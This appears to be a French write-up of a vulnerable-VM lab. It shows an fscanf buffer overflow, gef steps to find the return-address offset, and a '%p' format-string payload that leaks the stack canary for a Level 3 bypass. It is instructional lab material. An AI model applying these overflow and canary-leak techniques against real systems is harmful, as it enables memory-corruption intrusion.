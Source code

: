 ## Fonctionnement de la VM

1. Point d'entrée `main()`
2. Prise de l'input
3. Boucle sur chaque input
    - Appel `vuln_function(input, insn)`
    - Appel `exec_instructions(insn)`

### `vuln_function`

Deux buffers :

```c
char cmd[256];
char op1[256];
```

Itère sur toutes les `cmds` :

```c
struct cmd_fun_t
{
    // command name
    char    *cmd;
#define NO_OP   0
#define OP_INT  1
#define OP_STR  2
    // operand type
    int     flag_operand;
    // function to execute
    void    (*f)(struct cmd_state_t*);
};
```

```c
struct cmd_fun_t    cmds[] = {
    // cmd | flag op | p* to function
    {"dump", NO_OP, dump},
    {"prints", OP_STR, prints},
    {"printd", OP_INT, printd},
    {"add", NO_OP, add},
    {"mul", NO_OP, mul},
    {"div", NO_OP, divide},
    {"mod", NO_OP, mod},
    {"load_b", OP_INT, load_b},
    {"load_c", OP_INT, load_c},
    {"mov_b", NO_OP, mov_b},
    {"mov_c", NO_OP, mov_c},
    {"mov_si", NO_OP, mov_si},
    {"mov_di", NO_OP, mov_di},
#if LEVEL < 8
    {"fetch_buf", OP_STR, fetch_buf},
#endif
    {"movmem", NO_OP, movmem},
    {"swapdisi", NO_OP, swapdisi},
    {"jmp", OP_INT, jmp},
    {"cmp_ab", NO_OP, cmp_ab},
    {"cmp_bc", NO_OP, cmp_bc},
    {"cmp_ac", NO_OP, cmp_ac},
    {"je", OP_INT, je},
    {"jne", OP_INT, jne},
    {"jlt", OP_INT, jlt},
    {"jle", OP_INT, jle},
    {"jgt", OP_INT, jgt},
    {"jge", OP_INT, jge},
    {"push_a", NO_OP, push_a},
    {"push_b", NO_OP, push_b},
    {"push_c", NO_OP, push_c},
    {"push_si", NO_OP, push_si},
    {"push_di", NO_OP, push_di},
    {"pop_a", NO_OP, pop_a},
    {"pop_b", NO_OP, pop_b},
    {"pop_c", NO_OP, pop_c},
    {"pop_si", NO_OP, pop_si},
    {"pop_di", NO_OP, pop_di},
    {"call", OP_INT, call},
    {"ret", NO_OP, ret},
    {"connect", NO_OP, connect},
    {"disconnect", NO_OP, disconnect},
    {0, 0},
};
```

Pour chaque itération, l'argument de la commande est *validé*.

La ligne 134 est vulnérable à un buffer overflow :
```c
char op1[256];
// ...
int rdstr = fscanf(input, " %s", op1);
```

## Level 1

```shell
$ gef bin/my_vm1

gef➤ b vuln_function
gef➤ r
gef➤ disass

# trouver l'adresse de la fonction fscanf et on break dessus
gef➤ b *0x00000000004025da
# stack frame
gef➤ p/x $rbp

# adresse à écraser
gef➤ p/x &op1

# on veut le nb d'octets à écraser
# où `((char*)$rbp + 8)` => adresse de retour de vuln_function()
# où `(char*)&op1` => adresse du buffer
p/d ((char*)$rbp + 8) - (char*)&op1 - 4
```

## Level 3

Trouver le nombre de padding à remplir pour bypass le canary :

```shell
gef➤  checksec
[+] checksec for '/media/sf_shared/my_vuln_vm/ref/bin/my_vm3'
Canary                        : ✓ (value: 0x4e02d9950d5b4800)
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
gef➤  x/gx $rbp
0x7fffffff9f00: 0x00007fffffffddb0
gef➤  x/gx $rbp-8
0x7fffffff9ef8: 0x4e02d9950d5b4800
gef➤  p/d ((char*)$rbp - 8) - (char*)&op1
$1 = 264
```

On trouve la stack canary en brute-force avec plusieurs formats specifiers. On connaît son adresse grâce au `checksec`, il suffit de l'identifier dans la chaîne affichée et de compter les occurences. Ici c'est l'équivalent de 43.

```shell
gef➤  checksec
[+] checksec for '/media/sf_shared/my_vuln_vm/ref/bin/my_vm3'
Canary                        : ✓ (value: 0xc78c3a3f82554400)
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : ✘
gef➤  c
Continuing.
sz: 1 OP: %p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p-%p
read prints
Enter command: exec
SZ 1 CMD: exec
EXEC INSN IP 0
EXEC PRINTS
0x405b80-0xffffffffffffffeb-0x35-0x96-0xa0-(nil)-0x7fffffff7630-(nil)-0x7fffffff74d8-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d7025-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-(nil)-0xc78c3a3f82554400-0x7fffffff9f00-0x4023fc-(nil)-0x7fffffff9f30-(nil)-0x405ac0-(nil)
```

